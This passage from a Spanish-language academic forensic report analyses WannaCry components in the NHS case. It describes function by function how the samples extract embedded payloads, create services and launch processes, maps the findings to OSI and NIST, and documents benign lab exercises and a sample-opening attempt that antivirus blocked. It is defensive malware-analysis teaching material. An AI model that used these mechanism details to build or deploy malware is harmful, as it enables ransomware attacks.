La revisión debe verificar formato real, orden de llamadas, aritmética de +4, longitud, identidad del PE y retornos. Para ampliar harían falta inicialización del handle de módulo, referencias a PlayGame y contexto de invocación, manteniendo separada la procedencia externa. RS.AN-03 organiza la explicación causal; RS.AN-07 exige identidad y procedencia; RS.AN-06 exige registrar qué revisión se hizo realmente.

### Lectura por capas OSI: recurso W/101 y lanzamiento local

| Evidencia | Capa / ámbito | Qué significa y qué no significa |
|---|---|---|
| `FindResourceA` tipo W, ID 101; `LoadResource`, `LockResource` | No aplica | Selecciona y accede a datos ya embebidos en la DLL. W/101 no es una URL ni un puerto. |
| Lectura del DWORD inicial y `WriteFile` a una ruta local | No aplica | Interpreta una longitud y solicita guardar bytes en el sistema de archivos. No hay encapsulado de red demostrado. |
| `CreateProcessA` en 1800010f8 | No aplica | Solicita iniciar un programa local. La API no acredita proceso resultante ni tráfico posterior. |
| Capas 7–1 | No se demuestra actividad de red en las funciones seleccionadas | Para asignar HTTP, SMB u otro protocolo se necesitan llamadas, argumentos o captura atribuibles; no se infiere por la familia o por el nombre DLL. |

**Cómo explicarlo:** las capas OSI ayudan a analizar la propagación por SMB cuando se demuestra tráfico; W/101 pertenece a la estructura del archivo PE y la extracción ocurre dentro de Windows. Son planos distintos del análisis. La DLL podría estar integrada en una cadena más amplia, pero la función observada no demuestra qué proceso la invocó ni qué comunicación siguió.

**Conclusión del componente:** ec1383… aporta un mecanismo de depósito y solicitud de lanzamiento de otra carga. Es útil para explicar arquitectura y límites de interpretación, pero su pertenencia a una cadena concreta de infección del NHS permanece no demostrada.


## 10. Correlación de hallazgos con artefactos de un sistema

Los artefactos de la tabla son **fuentes que se necesitarían**, no objetos adquiridos del NHS ni resultados generados en esta práctica. Su presencia depende de configuración, versión, retención y acciones previas. Una coincidencia nominal es una pista; la correlación debe sostener identidad y secuencia.

| Capacidad observada | Fuente que podría corroborarla | Qué habría que comprobar |
|---|---|---|
| Solicitud de servicio | Registro System, evento 7045; clave de servicio | Host, hora, ruta, ejecutable y proceso asociado |
| Solicitud de proceso | Auditoría de creación de procesos; telemetría existente | Relación padre-hijo, comando, token y tiempos |
| Escritura de componente | Archivo, metadatos y registro de actividad | Hash, ubicación y relación con el proceso |
| Acceso de red | Captura o registros DNS/firewall/proxy disponibles | Destino, tiempo y host; no solo puerto |
| Acción contra recuperación | Procesos y estado de copias antes/después | Operación realmente terminada y efecto comprobado |
| Cifrado | Archivos afectados y comparación con referencia | Contenido, extensión, proceso y secuencia; no solo nombre |

No se equipara un evento de autenticación de red con RDP sin más datos. Un timestamp de compilación tampoco determina la fecha de infección; puede no ser fiable. Una línea temporal debe conservar zona horaria, precisión, desfase conocido y fuente de cada hora. [NIST SP 800-86, §§4–6]

### 10.1 Ficha modelo ya completada con un hallazgo estático

| Campo | Contenido |
|---|---|
| Pregunta | ¿La rutina W/101 descifra el recurso? |
| Objeto | ec1383…, SHA-256 completo en sección 3 |
| Localizador | 180001014; instrucciones 18000108b y 1800010c4–1800010d3 |
| Observación | Lectura de DWORD inicial y WriteFile desde recurso+4 |
| Procedimiento | Cotejo de transcripción con Listing preservado y límites del recurso |
| Resultado | El tramo delimitado corresponde al PE 93db4b26… |
| Interpretación | La rutina seleccionada copia un tramo; no se observa descifrado en ella |
| Límite | No establece cómo se invocó PlayGame ni que la escritura ocurriera |
| NIST | RS.AN-03 y RS.AN-07; método SP 800-86 |

Una nueva ficha debe identificar a quien hizo realmente la comprobación. Este ejemplo expone un razonamiento documentado; no acredita una revisión individual nueva por cada autor.

### 10.2 Catálogo de las 16 funciones: entradas, recursos y continuación

Este catálogo se lee junto con los capítulos 6–9 y las transcripciones del anexo. Resume las funciones seleccionadas; no incorpora nuevas exportaciones ni cubre las 1.755 funciones reconocidas. Las direcciones corresponden al programa indicado, no a una captura de memoria en ejecución. «Siguiente» describe el control previsto cuando se alcanza ese camino.

### 24d004…: seis funciones

| Dirección y entrada | Cómo opera y qué recursos utiliza | Condición, continuación y prueba del efecto |
|---|---|---|
| 00408140. URL incorporada al programa | Copia texto a un buffer local. InternetOpenA crea contexto WinINet; InternetOpenUrlA solicita la apertura. Usa memoria y servicios de comunicación | NULL conduce a 00408090; no nulo evita esa llamada. Ambos caminos retornan 0. Para acreditar una consulta real hacen falta resultado de API y contexto de red/proceso |
| 00408090. Ruta del módulo y argc | GetModuleFileNameA alimenta una variable global. Examina argumentos; usa handles del administrador de servicios y del servicio existente | argc < 2 llama a 00407f20. El otro camino prepara el dispatcher con LAB_00408000, tras consultas condicionadas. Falta seguir todas las auxiliares y acreditar estado real del servicio |
| 00407f20. Contexto preparado por el llamador | Llama a 00407c40 y luego a 00407ce0. Coordina dos operaciones; no realiza por sí misma una transferencia de red | No comprueba un resultado entre ambas llamadas. Retorna 0. El fallo de la primera no demuestra que se omita la segunda |
| 00407c40. Ruta global del módulo | Forma la línea del servicio; OpenSCManagerA, CreateServiceA y StartServiceA solicitan administración, creación e inicio. Usa buffer y handles de servicio | El handle del administrador y luego el del servicio condicionan las llamadas. Cierra handles; retorna 0. Para probar instalación e inicio hay que comprobar configuración y estado, no solo el nombre mssecsvc2.0 |
| 00407ce0. Módulo, APIs resueltas y R/1831 | GetProcAddress obtiene direcciones de funciones. FindResource/LoadResource/LockResource/SizeofResource acceden a datos; prepara rutas y solicita archivo, escritura y proceso. Usa memoria, disco y handles | Hay controles sobre APIs y recurso, y sobre el handle del archivo. El resultado de escritura no valida toda la secuencia. El hijo contenido coincide con ed01…; su ejecución requeriría artefactos de proceso. Los prototipos indirectos requieren Listing |
| 00407480. param_1 y constante 0x1bd | Usa WS2_32 por ordinal, variables y estructuras parcialmente recuperadas. Se observa llamada inicial, control de -1, otras llamadas y devolución de un resultado | Es consistente con trabajo de conexión, sujeto a confirmar símbolos y prototipos. No se ha reconstruido su llamador completo ni el exploit. Una traza sería necesaria para afirmar destino, conexión o tráfico |

**Relación con OSI y NIST.** En 24d004…, 00408140 se relaciona directamente con aplicación (HTTP/WinINet); 00407480 aporta un indicio de socket/transporte y posible destino 445, pendiente de reconstruir. Las otras cuatro funciones de ese módulo solicitan operaciones locales de servicio, archivo y proceso. Las cuatro funciones de ed01… trabajan con el ZIP, archivos, permisos y procesos; las tres de u.wnry consultan token y solicitan procesos; las tres de ec1383… localizan/escriben un recurso y solicitan un proceso. Estas catorce funciones son operaciones del host, fuera de la clasificación OSI. La investigación sigue SP 800-86 para preservar, examinar, analizar e informar evidencia. La relación con CSF 2.0 se presenta retrospectivamente en el capítulo 10.3, a nivel de resultado/capacidad y con sus límites; no se asigna un control CSF a cada función. La API de servicios podría tener otras capacidades en otros programas, pero aquí los parámetros locales deben guiar la interpretación; no se le atribuye administración remota por el nombre de la API.

### ed01…: cuatro funciones

| Dirección y entrada | Cómo opera y qué recursos utiliza | Condición, continuación y prueba del efecto |
|---|---|---|
| 00401dab. Módulo y datos auxiliares para XIA/2058 | Accede al recurso y entrega sus datos a 004075ad. Con un contexto válido, 004075c4 obtiene información de entradas y 0040763d solicita extracción. Usa memoria del paquete y rutas de archivos | Si el nombre es c.wnry y ya tiene atributos válidos, omite esa extracción. Cierra contexto con 00407656. Retorno 1 no prueba cada escritura; habría que cotejar los miembros producidos |
| 00401fe7. Argumentos, ruta propia y directorio | Puede copiar tasksche.exe en la rama especial. En la principal establece directorio, solicita extracción y procesos de atributos/permisos. Después usa lectura y auxiliares hacia TaskStart | Puede salir antes por la rama de argumentos. Las llamadas externas con espera 0 no garantizan finalización. Solo alcanza la llamada indirecta si las condiciones sucesivas y el destino lo permiten. Falta el cuerpo completo de la carga |
| 00401064. Línea de proceso, parámetro de espera y posible salida | Inicializa STARTUPINFO y PROCESS_INFORMATION. CreateProcessA solicita un hijo. Si corresponde, WaitForSingleObject espera y GetExitCodeProcess consulta; cierra handles | Fallo de creación devuelve 0. Con espera no cero, un resultado de espera no cero conduce a TerminateProcess. Devuelve 1 tras creación informada; no demuestra el efecto de atributos o permisos del hijo |
| 004014a6. Archivo t.wnry y contexto de llamada | Abre y lee archivo, comprueba tamaño y WANACRY!, interpreta campos y reserva memoria con GlobalAlloc. Recurre a 004019e1, 00402a76 y 00403a77 | Comprobaciones fallidas impiden obtener el buffer útil. El llamador exige resultados posteriores antes de TaskStart. Hay que revisar el convenio __thiscall y las auxiliares para explicar la transformación completa |

En estas cuatro funciones, paquete, permisos, memoria y procesos son recursos del equipo. Una contraseña interna de paquete no es necesariamente la clave de cifrado de documentos. La cabecera WANACRY! y el campo 256 se observan; atribuirles una función criptográfica exacta exige seguir sus consumidores. Ninguna de estas cuatro funciones demuestra por sí sola una nueva conversación de red.

### u.wnry: tres auxiliares y un bloque de Listing

| Dirección y entrada | Cómo opera y qué recursos utiliza | Condición, continuación y prueba del efecto |
|---|---|---|
| 00401bb0. Contexto de seguridad consultado con handle NULL | AllocateAndInitializeSid construye el SID de administradores. CheckTokenMembership escribe la pertenencia habilitada en una variable; FreeSid libera el SID | Retorna el resultado consultado, o 0 si hubo determinados fallos. El bloque llamador utiliza ese valor para elegir auxiliar. No cambia por sí misma permisos ni eleva privilegios |
| 00401b50. Archivo, parámetros y opción de visualización | Prepara SHELLEXECUTEINFOA; coloca runas en lpVerb, el archivo en lpFile y argumentos en lpParameters; solicita ShellExecuteExA | La solicitud no prueba elevación concedida ni efecto sobre recuperación. La expresión booleana del decompilado debe leerse como está conservada; no se sustituye por un éxito de objetivo inventado |
| 00401a90. Línea de proceso, espera y posible puntero de salida | CreateProcessA obtiene, si tiene éxito, handles de proceso/hilo. Puede esperar, solicitar terminación o consultar salida, según parámetros y resultados; cierra referencias | Retorna 0 si falla la creación y 1 al completar su camino posterior. Ese 1 no demuestra que se borraran copias ni que finalizara correctamente el hijo. Se necesitan evidencias del proceso y del objeto afectado |

El Listing relaciona la cadena 00420fd8 con el bloque que consulta 00401bb0. Después selecciona 00401b50 en el camino cero o 00401a90 en el camino no cero, sujeto a las condiciones previas. El bloque principal no dispone de función contenedora correctamente decompilada en este proyecto. No se inventa un cuarto cuerpo para cubrir ese hueco. La finalidad contra recuperación se infiere del contenido y sus referencias; la eliminación efectiva no se observó.

### ec1383…: tres funciones

| Dirección y entrada | Cómo opera y qué recursos utiliza | Condición, continuación y prueba del efecto |
|---|---|---|
| 1800011a4, PlayGame. Invocación externa aún no identificada | sprintf construye C:\\WINDOWS\\mssecsvc.exe en una variable global. Llama al extractor y después a la auxiliar de proceso | No prueba el retorno del extractor entre llamadas. Retorna 0. La exportación existe, pero falta demostrar quién la invocó y con qué contexto |
| 180001014. Handle global de módulo y ruta global | Busca W/101, obtiene datos y tamaño; lee el DWORD inicial como longitud. CreateFileA solicita el destino; WriteFile usa recurso+4 y esa longitud; cierra archivo | Fallos iniciales devuelven 0. Superados esos controles, puede retornar 1 aun si no abre el archivo. No valida el resultado de escritura ni todos los límites de longitud. El cotejo externo del PE no es una comprobación realizada por esta función |
| 1800010f8. Ruta preparada por PlayGame | Inicializa estructuras y solicita CreateProcessA. Con resultado no cero, cierra los handles devueltos | No espera al proceso y retorna 0 en ambos caminos. Para afirmar ejecución y resultado se requieren registros correlacionados del hijo y sus cambios; cerrar handles no lo termina |

W/101 es un recurso local del módulo. El PE delimitado tiene SHA-256 93db4b26… y es distinto de 24d004…. El nombre de archivo de destino o su parecido con un servicio no sustituye el hash. El comportamiento posterior del hijo requiere su propio análisis; no se heredan automáticamente todas las conclusiones de otro componente.

### 10.3 De la función a la evidencia y al resultado NIST

| Pregunta técnica | Evidencia adecuada para resolverla | Relación retrospectiva y límite |
|---|---|---|
| ¿Se abrió una conexión y qué transportó? | Tráfico o registros de red correlacionados con proceso, dirección y tiempo | DE.CM-01 orienta el monitoreo de redes; una constante estática no acredita ese monitoreo |
| ¿Se creó un servicio o un proceso? | Configuración, registros y contexto de ejecución preservados | DE.CM-09 orienta el monitoreo del entorno de ejecución; las APIs son pistas para buscar artefactos |
| ¿Se escribió el hijo esperado? | Contenido adquirido, tamaño, hash y procedencia; correlación temporal | RS.AN-03 apoya el análisis causal y RS.AN-07 la integridad/procedencia; nombre idéntico no prueba identidad |
| ¿Se impidió la recuperación? | Estado anterior y posterior de mecanismos de recuperación y registros de operaciones | El código motiva investigar; no acredita por sí solo pérdida de respaldo ni éxito del ataque |
| ¿Se recuperaron datos confiables? | Validación del respaldo y de los datos restaurados, con alcance declarado | RC.RP-03 orienta la verificación de los activos de restauración. La copia benigna en el mismo disco solo aporta una demostración limitada |

OSI organiza dónde buscar comunicaciones; el método de SP 800-86 organiza cómo preservar y razonar sobre lo adquirido. Los códigos CSF no se asignan mecánicamente uno por capa. Un mismo hallazgo puede orientar detección, análisis y recuperación, sin demostrar que esos resultados de gestión estén plenamente implantados.


## 11. Prácticas benignas: procedimiento y resultados

### 11.1 Ejercicio de decisiones, sin ejecución del malware

Construir una tabla en papel con entradas hipotéticas: handle nulo/no nulo, recurso disponible/ausente, creación de archivo válida/inválida y creación de proceso válida/inválida. Recorrer los diagramas y anotar únicamente la salida del código. Etiquetar todas las entradas como S. El ejercicio se aprueba si se distinguen el retorno de la función, el resultado de la API y el efecto externo desconocido.

Respuestas de control: un handle no nulo evita la llamada 00408090; en W/101, después de pasar los controles iniciales, un fallo de CreateFileA puede llegar al retorno 1; en 1800010f8 tanto la ruta de éxito de CreateProcessA como la de fallo llegan a retorno 0. Ninguna respuesta implica que el malware se ejecutó.

### 11.2 Ejercicio de integridad y restauración de documentos ficticios

En una sesión de Windows verificada, crear una carpeta nueva de práctica con un texto que diga «dato ficticio de clase». Registrar su SHA-256 con Get-FileHash, conservar una copia separada y modificar manualmente solo el documento de trabajo. Comparar hashes, restaurar desde la copia y comprobar tanto la igualdad como la lectura del contenido. No utilizar documentos personales, muestras ni órdenes del malware.

El registro debe incluir fecha, acción, objeto, hash anterior/posterior, copia utilizada y resultado real. Restaurar un texto verifica esa operación limitada. No demuestra recuperación frente a WannaCry, limpieza de un respaldo ni restablecimiento de un servicio hospitalario. Relación NIST: PR.DS-11, RC.RP-03 y RC.RP-05.

### 11.3 Ejercicio de observación de proceso benigno

En la estación verificada, observar una aplicación inocua como el editor de texto con una herramienta disponible y validada. Anotar proceso, apertura y cierre reales. Si la auditoría o la herramienta no conserva un dato, registrar esa ausencia y su causa conocida; no inventar un evento. El objetivo es aprender la diferencia entre presencia de archivo, creación de proceso y operación terminada.

Los ejercicios de integridad, restauración y proceso se ejecutaron con datos ficticios en la sesión documentada a continuación. No se generaron conexiones de red ni se ejecutó malware. El ejercicio de mesa sigue siendo una propuesta distinta de esa ejecución.

### 11.4 Ejecución benigna comprobada en Windows

El 20 de noviembre de 2026, hora del anfitrión en Bolivia, se ejecutó una práctica
en `forense-nhs-win10-copia`. Se utilizó el Windows existente clonado, con un
snapshot previo y los ocho adaptadores de VirtualBox desactivados. Se mantuvieron
inhabilitados comparticiones, portapapeles, transferencia por portapapeles,
arrastrar/soltar, USB y VRDE. Los puertos serie y paralelo también se observaron
desactivados. El original del usuario no se utilizó para ejecutar la prueba.

La entrada fue un DVD virtual de solo lectura con `prueba_benigna.ps1`. El script
está publicado en `scripts/windows/` y su SHA-256 se cotejó con el mostrado dentro
del invitado: **97c2861a384dcc49194fde88ff0b5c5ce11c5e649c329c32cac7cd4e1cf4eaa1**.
No contiene WannaCry ni ejecuta sus comandos. La opción de política de ejecución
se limitó al proceso de PowerShell de la práctica; no se cambió la política
persistente de Windows.

### Procedimiento ejecutado y resultado

| Paso real | Comprobación | Resultado observado |
|---|---|---|
| Consultar adaptadores en el invitado | Win32_NetworkAdapter, propiedad NetEnabled | Cero adaptadores habilitados |
| Crear referencia y copia | Texto ficticio en una carpeta nueva; SHA-256 | Copia igual a referencia |
| Modificar solo el archivo de trabajo | Recalcular SHA-256 | Cambio detectado |
| Restaurar desde la copia | Comparar hash y contenido leído | Coincidencia con la referencia |
| Abrir Bloc de notas sobre ese texto | Get-Process sobre el PID devuelto e interfaz lista | Proceso notepad observado |
| Solicitar cierre normal | Esperar salida y consultar resultado | Proceso terminado, código de salida cero |

La herramienta efectivamente usada fue Windows PowerShell 5.1.18362.145, con
Get-FileHash, consultas locales del sistema y Bloc de notas. La consola mostró
el estado COMPLETADO. El uso de estas herramientas no acredita la validación
de los paquetes descargados de Ghidra, Sysinternals, WinPmem o Volatility dentro
de Windows; esa validación permanece pendiente.

| Objeto ficticio | SHA-256 observado |
|---|---|
| Referencia | 273891F95D948B6F3BF4A103AF64672960E971332E17946182CDA8FBD7F4CC15 |
| Archivo modificado | 5FE5FBE5029A405C9302BECAFA00346971F0CD374603E866665BE63BC880D6F6 |
| Archivo restaurado | 273891F95D948B6F3BF4A103AF64672960E971332E17946182CDA8FBD7F4CC15 |

Los hashes de referencia y modificación se calcularon también en el anfitrión
sobre los mismos textos y codificación, y coincidieron. Este cotejo comprueba
la consistencia del ejercicio; no convierte el texto ficticio en evidencia del
NHS. La copia de prueba estaba en el mismo disco virtual: no se presenta como
un respaldo independiente protegido frente a ransomware.

### Registro, horas y preservación

El script guardó `resultado.json` y `resultado.sha256` dentro de la carpeta nueva
`%LOCALAPPDATA%\NHS_Forense_Practica\`, con identificador propio. Se volvió a leer
el JSON y se mostró su hash en la consola del invitado. No se exportó ese archivo
al anfitrión mediante redes o carpetas compartidas.

En el anfitrión se conservaron las capturas de pantalla, el script, comprobaciones
de aislamiento y una transcripción manual identificada expresamente como tal en
`local/practica-windows/20261121T0350Z/`. Las capturas y registros originales
permanecen fuera de Git. La edición anterior de los informes también se preservó
localmente antes de incorporar los resultados.

Se detectó que el UTC informado por el invitado estaba **aproximadamente cinco
horas atrasado respecto del anfitrión**. Se consultó el reloj entre dos marcas
temporales del anfitrión y se observó la zona Romance Standard Time en Windows.
No se corrigieron los tiempos originales ni se atribuyó precisión absoluta al
reloj del anfitrión. Una cronología conjunta debe conservar esa diferencia e
incertidumbre; no se deben ordenar directamente ambos registros como si sus
relojes estuvieran sincronizados.

### Alcance metodológico

Los datos son ficticios (S), mientras que su procesamiento y los resultados de
esta sesión son observaciones locales reales (L). SP 800-86 organiza la
identificación, examen, interpretación y reporte. RS.AN-06 y RS.AN-07 ayudan a
explicar registro, integridad y procedencia. PR.DS-11 y RC.RP-03 se relacionan
parcialmente con la copia y restauración; RC.RP-05 requiere además validación
funcional del servicio, que aquí no se realizó.

La prueba demuestra detección de un cambio, restauración de un archivo ficticio
y observación de un proceso benigno. **No es una detonación de WannaCry, un ensayo
de cifrado ni una recuperación hospitalaria.** Se cerró Windows y se comprobó
de nuevo el aislamiento. La ausencia de interfaces habilitadas es una
comprobación concreta de configuración, no una garantía absoluta sobre el
hipervisor o la limpieza previa del sistema clonado.


### 11.5 Intento controlado de apertura de la muestra: bloqueado

El 21 de noviembre de 2026 se descargó el ZIP de la muestra 24d004… desde la entrada de Malware-Traffic-Analysis.net y se comprobó que el ejecutable extraído coincide con el SHA-256 `24d004a104d4d54034dbcffc2a4b19a11f39008a575aa614ea04703480b1022c`. Se preparó como ISO óptico y se conectó a un **clon enlazado desechable** de la copia autorizada de Windows 10. La VM original y la copia base no se arrancaron ni modificaron.

El clon tuvo un único adaptador conectado a una red interna VirtualBox de nombre único, sin NAT, puente, host-only, puerta de enlace o DNS; los otros siete adaptadores quedaron desactivados. Dentro de Windows se observó IPv4 automática `169.254.106.134`, sin gateway ni DNS. Carpetas compartidas, USB, portapapeles, transferencia por portapapeles, drag-and-drop y VRDE estuvieron desactivados. La interfaz capturó tráfico mediante `nictrace` de VirtualBox. No se desactivó Defender, no se creó una exclusión y no se elevó el proceso.

Al solicitar la apertura del único `.EXE` del ISO, PowerShell devolvió que la operación no podía completarse porque el archivo contenía un virus o software potencialmente no deseado. El mensaje es compatible con un bloqueo antimalware de Windows, pero no se consultó el registro de Defender para identificar motor, firma o evento. **Resultado:** intento bloqueado por protección del invitado; no se obtuvo evidencia de ejecución efectiva de WannaCry, cifrado, servicio creado ni propagación. No debe describirse como detonación. La identidad del archivo se verificó en el anfitrión antes de construir el ISO; la lectura/hash desde Windows recibió un error equivalente de protección.

La captura de VirtualBox contiene 100 paquetes durante 449,225006 s. TShark 4.7.4 contó 0 tramas TCP, 0 TCP/445 y 0 DNS; encontró anuncios de red del propio Windows, incluidos cuatro paquetes UDP/138. No se atribuyen esos paquetes a WannaCry: el bloqueo observado y la ausencia de evidencia de proceso impiden esa atribución. Los tiempos absolutos del PCAP aparecen en 1969; son inválidos y no se usan como cronología. No había un segundo equipo conectado al segmento interno, por lo que esta práctica tampoco podía probar propagación ni recibir una respuesta de explotación.

En términos de SP 800-86, se registraron fuente, hash, configuración, acción, salida de error, captura y limitaciones para examen, análisis e informe. Como contraste retrospectivo de CSF 2.0, el ejercicio muestra una configuración de aislamiento relacionada con PR.IR-01 y una actividad de análisis de evento relacionada con RS.AN-03; **no certifica controles ni demuestra hechos del NHS**. El PCAP, las imágenes, la muestra y el clon permanecen fuera de Git; el clon enlazado se apagó y eliminó tras preservar los registros. El suplemento ampliado está en `entrega_nist/ejecucion_controlada_bloqueada.md`; el resumen del laboratorio, en `entrega_nist/estado_laboratorio.md`.

## 12. Cómo ampliar el análisis de las demás funciones

### 12.1 Inventario antes de conclusiones

Exportar un listado de funciones del programa autorizado, conservando nombre, dirección, tamaño, llamadas y referencias. Clasificar cada entrada solo después de examinarla: inicialización, biblioteca, datos, recursos, interfaz, red, procesos, criptografía o sin resolver. Registrar el criterio y su confianza. La plantilla anterior de inventario está vacía y no se presenta como trabajo ya completado.

### 12.2 Prioridades concretas

| Componente | Próxima pregunta estática | Condición para cerrarla |
|---|---|---|
| 24d004… | ¿Qué caminos siguen al dispatcher y a las rutinas de red? | Grafo de llamadas contrastado y condiciones documentadas |
| ed01… | ¿Qué hacen los auxiliares previos a TaskStart? | Tipos revisados, entradas/salidas y fronteras de carga comprobadas |
| u.wnry | ¿Cuál es el límite correcto del bloque llamador? | Referencias y flujo de instrucciones revisados sin inventar C |
| ec1383… | ¿Cómo se inicializa el módulo y quién llama a la exportación? | Callers e inicialización sustentados; procedencia externa separada |

Una función grande puede contener bibliotecas o interfaz y no ser el mecanismo principal. Una función pequeña puede tomar una decisión decisiva. La prioridad se justifica por la pregunta del caso, no por el número de líneas. No debe renombrarse una función como «cifrador» antes de demostrar qué transforma y cómo se relaciona con la carga.

## 13. Revisión colectiva y defensa

Los ocho autores pueden revisar por pares de manera rotativa, eligiendo un componente y una fuente histórica. Esta es una propuesta de trabajo, no una asignación nominal ni constancia de tareas realizadas. La revisión debe producir comentarios verificables y correcciones, sin reconstruir retrospectivamente firmas.

| Pregunta de defensa | Respuesta sustentada |
|---|---|
| ¿Los cuatro archivos son iguales? | No. Hay relaciones de contención y componentes distintos; ec1383… contiene otro PE |
| ¿Qué es W/101? | Tipo e identificador de recurso; el PE delimitado empieza cuatro bytes después |
| ¿HTTP 500 detuvo la muestra? | El 500 fue comunicado sobre la página ANY.RUN; no hay informe para concluirlo |
| ¿Ghidra muestra el código original? | Produce desensamblado y una aproximación de alto nivel, con tipos y nombres inferidos |
| ¿Se analizó todo WannaCry? | Se examinaron mecanismos seleccionados; 16 transcripciones no cubren 1.755 funciones |
| ¿Qué aporta NIST? | Método y resultados verificables de gestión; no añade evidencia ni certificación |
| ¿La VM demuestra lo ocurrido en 2017? | No; sirve para lectura y ejercicios benignos con resultados propios |

La exposición puede seguir este orden: identidad de los objetos, mapa de contenido, una decisión de cada componente, relación documental con el NHS, resultados NIST y límites. El detalle de código debe explicar una afirmación concreta; no es necesario leer en voz alta cada inicialización automática.

### 13.1 Secuencia de exposición y reparto de revisión

La autoría continúa siendo colectiva de los ocho autores. Para ensayar, cuatro parejas pueden revisar los cuatro componentes y luego intercambiar revisiones; no se atribuye una función a una persona sin constancia. Quienes expongan deben poder seguir el recorrido completo. El siguiente guion propone 20 minutos y puede repartirse entre dos voces sin cambiar la autoría.

| Tiempo | Qué mostrar | Qué debe comprender el público |
|---|---|---|
| 0–2 min | Pregunta, caso NHS y fuentes | El incidente histórico y nuestras observaciones de laboratorio son conjuntos distintos |
| 2–6 min | Matriz de las siete capas y figura 8 | HTTP/SMB, TCP/IP y soporte de enlace; operaciones locales fuera de esa clasificación |
| 6–9 min | 24d004…, 00408140 y R/1831 | Condición NULL, continuación y extracción; API llamada no equivale a efecto completado |
| 9–12 min | ed01…, XIA/2058 y TaskStart | Paquete, procesos externos y frontera de la carga no reconstruida |
| 12–14 min | u.wnry, token y Listing | Consulta de pertenencia, selección de auxiliar y efecto contra recuperación aún no observado |
| 14–16 min | ec1383…, W/101 | Longitud, +4, escritura y llamada siguiente aunque el retorno no se valide |
| 16–18 min | Cadena de impacto y mapeo NIST | Cómo los mecanismos ayudan a explicar indisponibilidad, contención y recuperación histórica |
| 18–20 min | Práctica benigna y conclusiones | Qué se comprobó realmente, qué sigue pendiente y cómo se preservó la evidencia |

Cada explicación de código debe contener una entrada, una condición, un recurso y un siguiente paso. Es preferible mostrar dos decisiones bien justificadas y dejar el catálogo completo para las preguntas que leer 16 cuerpos de C en voz alta.

### 13.2 Respuestas razonadas a preguntas del ingeniero

**¿Qué hace WannaCry en cada capa OSI?** En las funciones seleccionadas se observa una solicitud HTTP mediante WinINet y una rutina con indicios de conexión a 445; la propagación mediante SMBv1 se sustenta además en fuentes técnicas. TCP/IP y enlace proporcionan el transporte subyacente. Para presentación y sesión no se ha aislado aquí un mecanismo específico. El archivo no contiene necesariamente una función por capa.

**¿Dónde está la vulnerabilidad: en la capa 4 o en el puerto?** El puerto identifica un extremo de transporte. MS17-010 corrige el tratamiento de solicitudes en el servidor SMBv1. Una conexión a 445 no prueba explotación; hay que estudiar el protocolo y el efecto en el receptor. El servicio puede implementarse en componentes del sistema sin que cambie el papel conceptual del protocolo de aplicación.

**¿El cifrado corresponde a presentación?** El cifrado de documentos en disco es una operación local. Para asignar un mecanismo a presentación habría que justificar su papel en el intercambio de datos entre entidades; transformar bytes por sí solo no basta. Aquí tampoco se reconstruyó el cifrador entero, así que distinguimos la descripción técnica publicada del cuerpo local disponible.

**¿Qué función hace el cifrado exactamente?** Nuestra selección muestra lectura y procesamiento de t.wnry, auxiliares y una llamada indirecta asociada a TaskStart. Falta recuperar y analizar toda esa carga para asignar cada operación criptográfica a instrucciones concretas. No es correcto llamar «cifrador completo» a 004014a6 ni al CALL EAX sin estudiar su destino.

**¿Qué es W/101 y por qué se suma 1?** W es el tipo del recurso PE y 101 es su ID. El primer DWORD contiene la longitud. Como el puntero es DWORD*, sumar 1 avanza cuatro bytes, no uno; la instrucción LEA confirma +4. Así se omite la longitud y se apunta al PE. Esa rutina copia datos; no muestra descifrado.

**¿Qué sucede si falla la escritura en ec1383…?** La auxiliar puede devolver 1 tras superar los controles iniciales aunque no logre abrir el destino; tampoco comprueba el resultado de WriteFile para decidir ese retorno. PlayGame llama después a la auxiliar de proceso sin validar la extracción. Que exista esa llamada no garantiza un hijo válido: pueden faltar datos, permisos o un archivo utilizable.

**¿Qué es un handle y por qué lo cierra?** Es una referencia gestionada por una API a un objeto o contexto. Se usa para operaciones posteriores y se cierra con la API correspondiente. Cerrar el handle del proceso no equivale a terminarlo. El significado se obtiene del tipo de objeto y del contrato de la API.

**¿Cero siempre significa error?** No. InternetOpenUrlA devuelve NULL si falla; memcmp devuelve cero cuando los bytes comparados coinciden. Algunas auxiliares de las muestras devuelven cero en todos sus caminos. Hay que leer el contrato de la API y las ramas del llamador, no memorizar un significado universal.

**¿Cuánta memoria o CPU utiliza?** Conocemos tamaños de archivos y recursos, y vemos reservas y operaciones. No medimos consumo dinámico del malware. El tamaño del PE, la reserva de una auxiliar y la memoria total del proceso son magnitudes diferentes. La VM configurada con 4 GB no demuestra que el malware consuma 4 GB ni que necesite esa cantidad.

**¿Qué sigue después de CreateProcessA?** Primero se distingue si informó éxito. Luego se mira si el llamador espera, consulta salida o solo cierra handles. En 1800010f8 no hay espera. En 00401064 y 00401a90 la espera depende de un parámetro. Para demostrar el trabajo del hijo se necesitan datos de ese hijo y del objeto afectado. [API3]

**¿Sin red ya no puede hacer nada?** Deshabilitar la red impide ese canal de comunicación; no equivale a impedir operaciones locales. En 00408140, un resultado NULL permite continuar hacia preparación. El aislamiento del laboratorio no es una prueba de inocuidad ni se utilizó para ejecutar WannaCry. Se estudiaron las decisiones estáticamente y se realizó un ejercicio benigno separado.

**¿El error 500 de ANY.RUN demuestra que se detuvo?** El dato comunicado corresponde a la página del servicio. Sin informe de tarea no tenemos resultado de la API del malware, traza del proceso ni efecto sobre archivos. No se traslada ese 500 a la condición del kill switch.

**¿Podemos afirmar que estos cuatro archivos recorrieron juntos el NHS?** No. La contención 24d004… → ed01… → paquete con u.wnry se acredita localmente. ec1383… contiene otro PE. La cadena hospitalaria concreta requeriría evidencias con procedencia, tiempos y contexto del hospital, no solo parecido funcional.

**¿En qué parte se aplica NIST?** SP 800-86 ordena preservación, examen, análisis e informe. CSF 2.0 permite discutir resultados de gestión retrospectivamente. OSI ayuda a explicar comunicaciones. Los tres aportan perspectivas distintas; ninguno transforma una hipótesis en observación. La matriz se sustenta en los hallazgos y declara sus límites.

### 13.3 Ensayo de una respuesta completa

«En ec1383…, la exportación PlayGame construye una ruta global y llama a 180001014. Esta busca W/101, comprueba referencias iniciales, lee una longitud de cuatro bytes y solicita escribir el tramo siguiente. El recurso utiliza memoria del módulo y la escritura utiliza un archivo del sistema. Su retorno no garantiza que se haya escrito. PlayGame llama después a 1800010f8 sin validar ese resultado; esta solicita un proceso y no espera a que termine. Son operaciones locales, no siete pasos OSI. Para demostrar ejecución necesitaríamos correlacionar archivo, contenido, proceso y tiempo. El código local no acredita por sí solo que esto sucediera en el NHS».

